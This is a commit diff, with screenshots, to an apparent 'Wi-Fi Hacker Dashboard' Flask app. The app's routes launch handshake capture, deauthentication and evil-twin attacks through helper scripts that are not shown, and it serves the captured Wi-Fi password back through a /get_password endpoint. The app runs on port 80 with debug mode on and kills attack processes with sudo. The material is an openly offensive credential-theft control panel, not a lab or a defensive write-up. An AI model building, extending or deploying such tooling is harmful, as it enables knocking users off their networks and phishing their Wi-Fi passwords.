

Before and after one commit to Furk-st/Dhokha-Fi, a Flask app: page / in a window 1280 px wide. Shown: the top 472 px of the page, without its empty margins (102-1177 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; lists and menus that the app fills with data are empty.

Commit message:
Update number 2

```diff
--- a/webserver/app.py
+++ b/webserver/app.py
@@ -3,75 +3,90 @@ import subprocess
 import json
 import os
 
-app = Flask(__name__)
+# Initialize Flask App
+app = Flask(__name__, template_folder="templates")
 
-HANDSHAKE_FILE = "../scripts/handshake.txt"
-PASSWORD_FILE = "../scripts/wifi_password.txt"
+# Define the absolute path to the scripts directory
+BASE_DIR = os.path.dirname(os.path.abspath(__file__))
+SCRIPTS_DIR = os.path.join(BASE_DIR, "../scripts")
 
 @app.route('/')
 def index():
-    """Render the web interface."""
+    """Render the main web interface."""
     return render_template('index.html')
 
 @app.route('/scan', methods=['GET'])
 def scan_networks():
-    """Scans for available Wi-Fi networks and returns JSON."""
+    """Scans for available Wi-Fi networks and returns JSON response."""
     try:
-        result = subprocess.run(["python3", "../scripts/scan.py"], capture_output=True, text=True)
-        networks = json.loads(result.stdout.strip())
+        result = subprocess.run(["python3", os.path.join(SCRIPTS_DIR, "scan.py")], capture_output=True, text=True)
+
+        # Debugging: Print scan.py output to terminal
+        print(f"[DEBUG] scan.py Output: {result.stdout}")
+
+        networks = json.loads(result.stdout.strip())  # Parse JSON output
+
         return jsonify(networks)
+    except json.JSONDecodeError as e:
+        return jsonify({"error": "Invalid JSON output from scan.py", "details": str(e)}), 500
     except Exception as e:
-        return jsonify({"error": str(e)})
+        return jsonify({"error": str(e)}), 500
 
 @app.route('/capture', methods=['POST'])
 def start_capture():
-    """Starts handshake capture on selected SSID."""
+    """Starts handshake capture on the selected SSID."""
     ssid = request.json.get("ssid")
     if not ssid:
         return jsonify({"error": "SSID is required"}), 400
 
-    subprocess.Popen(["python3", "../scripts/capture.py", ssid])
-    return jsonify({"status": f"Capturing handshake for {ssid}"})
-
+    try:
+        subprocess.Popen(["python3", os.path.join(SCRIPTS_DIR, "capture.py"), ssid])
+        return jsonify({"status": f"Capturing handshake for {ssid}"})
+    except Exception as e:
+        return jsonify({"error": str(e)}), 500
 
 @app.route('/start_attack', methods=['POST'])
 def start_attack():
-    """Starts Deauth Attack and Evil Twin with Validation."""
+    """Starts Deauth Attack and Evil Twin."""
     ssid = request.json.get("ssid")
     bssid = request.json.get("bssid")
-    gateway_mac = request.json.get("gateway_mac")
 
-    if not ssid or not bssid or not gateway_mac:
-        return jsonify({"error": "SSID, BSSID, and Gateway MAC are required"}), 400
+    if not ssid or not bssid:
+        return jsonify({"error": "SSID and BSSID are required"}), 400
 
-    # Start deauth attack
-    subprocess.Popen(["python3", "../scripts/deauth.py", bssid, gateway_mac])
+    try:
+        subprocess.Popen(["python3", os.path.join(SCRIPTS_DIR, "deauth.py"), bssid])
+        subprocess.Popen(["python3", os.path.join(SCRIPTS_DIR, "evil_twin_validate.py"), ssid])
 
-    # Start Evil Twin & Password Validation
-    subprocess.Popen(["python3", "../scripts/evil_twin_validate.py", ssid])
-
-    return jsonify({"status": f"Deauth & Evil Twin Started for {ssid}"})
-
+        return jsonify({"status": f"Deauth & Evil Twin Started for {ssid}"})
+    except Exception as e:
+        return jsonify({"error": str(e)}), 500
 
 @app.route('/get_password', methods=['GET'])
 def get_password():
     """Retrieves the obtained Wi-Fi password."""
+    password_file = os.path.join(SCRIPTS_DIR, "wifi_password.txt")
+
     try:
-        with open(PASSWORD_FILE, "r") as file:
-            password = file.read().strip()
-        return jsonify({"wifi_password": password})
-    except FileNotFoundError:
-        return jsonify({"wifi_password": "Not found yet."})
-
+        if os.path.exists(password_file):
+            with open(password_file, "r") as file:
+                password = file.read().strip()
+            return jsonify({"wifi_password": password})
+        else:
+            return jsonify({"wifi_password": "Not found yet."})
+    except Exception as e:
+        return jsonify({"error": str(e)}), 500
 
 @app.route('/stop_attack', methods=['POST'])
 def stop_attack():
-    """Stops Deauth & Evil Twin attacks."""
-    os.system("sudo pkill hostapd")
-    os.system("sudo pkill dnsmasq")
-    os.system("sudo pkill aireplay-ng")
-    return jsonify({"status": "All attacks stopped!"})
-
+    """Stops all attacks."""
+    try:
+        os.system("sudo pkill hostapd")
+        os.system("sudo pkill dnsmasq")
+        os.system("sudo pkill aireplay-ng")
+        return jsonify({"status": "All attacks stopped!"})
+    except Exception as e:
+        return jsonify({"error": str(e)}), 500
 
 if __name__ == "__main__":
     app.run(host="0.0.0.0", port=80, debug=True)
--- /dev/null
+++ b/webserver/handshake.cap-01.csv
@@ -0,0 +1,4 @@
+
+BSSID, First time seen, Last time seen, channel, Speed, Privacy, Cipher, Authentication, Power, # beacons, # IV, LAN IP, ID-length, ESSID, Key
+
+Station MAC, First time seen, Last time seen, Power, # packets, BSSID, Probed ESSIDs
--- /dev/null
+++ b/webserver/handshake.cap-01.kismet.csv
@@ -0,0 +1 @@
+Network;NetType;ESSID;BSSID;Info;Channel;Cloaked;Encryption;Decrypted;MaxRate;MaxSeenRate;Beacon;LLC;Data;Crypt;Weak;Total;Carrier;Encoding;FirstTime;LastTime;BestQuality;BestSignal;BestNoise;GPSMinLat;GPSMinLon;GPSMinAlt;GPSMinSpd;GPSMaxLat;GPSMaxLon;GPSMaxAlt;GPSMaxSpd;GPSBestLat;GPSBestLon;GPSBestAlt;DataSize;IPType;IP;
--- /dev/null
+++ b/webserver/handshake.cap-01.log.csv
@@ -0,0 +1 @@
+LocalTime, GPSTime, ESSID, BSSID, Power, Security, Latitude, Longitude, Latitude Error, Longitude Error, Type
--- a/webserver/templates/index.html
+++ b/webserver/templates/index.html
@@ -6,90 +6,69 @@
     <title>Wi-Fi Hacker Dashboard</title>
     <style>
         body {
+            background-color: black;
+            color: white;
             font-family: Arial, sans-serif;
-            background-color: #121212;
-            color: #ffffff;
             text-align: center;
         }
-        h1 {
-            color: #ffcc00;
+        button {
+            background-color: yellow;
+            border: none;
+            padding: 10px;
+            margin: 5px;
+            cursor: pointer;
+            font-weight: bold;
         }
-        button {
-            background-color: #ffcc00;
-            color: black;
-            padding: 10px 20px;
-            border: none;
-            cursor: pointer;
-            font-size: 16px;
-            margin: 10px;
-            border-radius: 5px;
-        }
-        button:hover {
-            background-color: #ffdd44;
-        }
-        .container {
+        table {
             width: 80%;
             margin: auto;
-        }
-        table {
-            width: 100%;
-            margin-top: 20px;
+            border: 1px solid yellow;
             border-collapse: collapse;
         }
         th, td {
-            border: 1px solid #ffcc00;
-            padding: 10px;
+            border: 1px solid yellow;
+            padding: 8px;
             text-align: center;
         }
-        th {
-            background-color: #333;
-        }
-        .log-box {
-            background: #222;
-            padding: 10px;
-            height: 150px;
-            overflow-y: auto;
+        #logs {
             margin-top: 20px;
-            border-radius: 5px;
-            border: 1px solid #ffcc00;
-            text-align: left;
             font-size: 14px;
-        }
-        .password-box {
-            font-size: 20px;
-            font-weight: bold;
-            margin-top: 20px;
-            color: #ff5733;
-        }
-        .loader {
-            display: none;
-            border: 5px solid #f3f3f3;
-            border-top: 5px solid #ffcc00;
-            border-radius: 50%;
-            width: 50px;
-            height: 50px;
-            animation: spin 1s linear infinite;
-            margin: auto;
-        }
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
+            color: #00ff00;
         }
     </style>
+</head>
+<body>
+    <h1>Wi-Fi Hacker Dashboard</h1>
+
+    <button onclick="scanNetworks()">🔍 Scan Wi-Fi Networks</button>
+    <button onclick="stopAttack()">⛔ Stop Attack</button>
+    <button onclick="getCapturedPassword()">🔑 Get Captured Password</button>
+
+    <table id="networks">
+        <tr>
+            <th>SSID</th>
+            <th>BSSID</th>
+            <th>Signal</th>
+            <th>Channel</th>
+            <th>Action</th>
+        </tr>
+    </table>
+
+    <div id="logs">[+] Logs will appear here...</div>
+
     <script>
         function scanNetworks() {
-            document.getElementById("loader").style.display = "block";
-            document.getElementById("logs").innerHTML += "[*] Scanning Wi-Fi Networks...<br>";
+            document.getElementById("logs").innerHTML += "<br>[*] Scanning Wi-Fi Networks...";
 
             fetch('/scan')
                 .then(response => response.json())
                 .then(data => {
-                    document.getElementById("loader").style.display = "none";
-                    document.getElementById("logs").innerHTML += "[+] Scan Complete!<br>";
+                    document.getElementById("logs").innerHTML += "<br>[+] Scan Complete!";
 
                     let networksTable = document.getElementById("networks");
                     networksTable.innerHTML = "<tr><th>SSID</th><th>BSSID</th><th>Signal</th><th>Channel</th><th>Action</th></tr>";
 
+                    if (Array.isArray(data)) {
                         data.forEach(network => {
                             networksTable.innerHTML += `<tr>
                                 <td>${network.SSID}</td>
@@ -102,82 +81,24 @@
                                 </td>
                             </tr>`;
                         });
+                    } else {
+                        document.getElementById("logs").innerHTML += "<br>[-] No networks found.";
+                    }
+                })
+                .catch(error => {
+                    console.error("Error:", error);
+                    document.getElementById("logs").innerHTML += "<br>[-] Error scanning networks.";
                 });
         }
 
         function startCapture(ssid) {
-            document.getElementById("logs").innerHTML += "[*] Capturing handshake for " + ssid + "...<br>";
-
             fetch('/capture', {
                 method: "POST",
                 headers: { "Content-Type": "application/json" },
                 body: JSON.stringify({ "ssid": ssid })
-            })
-            .then(response => response.json())
-            .then(data => {
-                document.getElementById("logs").innerHTML += "[+] " + data.status + "<br>";
             });
-        }
-
-        function startEvilTwin(ssid, bssid) {
-            document.getElementById("logs").innerHTML += "[*] Starting Evil Twin for " + ssid + "...<br>";
-
-            fetch('/start_attack', {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({ "ssid": ssid, "bssid": bssid, "gateway_mac": "11:22:33:44:55:66" })
-            })
-            .then(response => response.json())
-            .then(data => {
-                document.getElementById("logs").innerHTML += "[+] " + data.status + "<br>";
-            });
-        }
-
-        function checkPassword() {
-            fetch('/get_password')
-                .then(response => response.json())
-                .then(data => {
-                    if (data.wifi_password !== "Not found yet.") {
-                        document.getElementById("wifi_password").innerText = "Captured Password: " + data.wifi_password;
-                        document.getElementById("logs").innerHTML += "[+] Password Obtained!<br>";
-                    } else {
-                        document.getElementById("logs").innerHTML += "[-] No password found yet. Waiting...<br>";
-                    }
-                });
-        }
-
-        function stopAttack() {
-            fetch('/stop_attack', { method: "POST" })
-                .then(response => response.json())
-                .then(data => {
-                    document.getElementById("logs").innerHTML += "[!] " + data.status + "<br>";
-                });
+            document.getElementById("logs").innerHTML += "<br>[+] Capturing handshake for " + ssid + "...";
         }
     </script>
-</head>
-<body>
-
-    <h1>Wi-Fi Hacker Dashboard</h1>
-
-    <div class="container">
-        <button onclick="scanNetworks()">🔍 Scan Wi-Fi Networks</button>
-        <button onclick="stopAttack()">🛑 Stop Attack</button>
-        <button onclick="checkPassword()">🔑 Get Captured Password</button>
-
-        <div class="loader" id="loader"></div>
-
-        <table id="networks">
-            <tr><th>SSID</th><th>BSSID</th><th>Signal</th><th>Channel</th><th>Action</th></tr>
-        </table>
-
-        <div class="log-box" id="logs">
-            <p>[*] Logs will appear here...</p>
-        </div>
-
-        <div class="password-box" id="wifi_password">
-            Captured Password: Not Found
-        </div>
-    </div>
-
 </body>
 </html>
```
Also changed, not shown: 2 other files. Lines whose indentation alone changed are shown as unchanged.
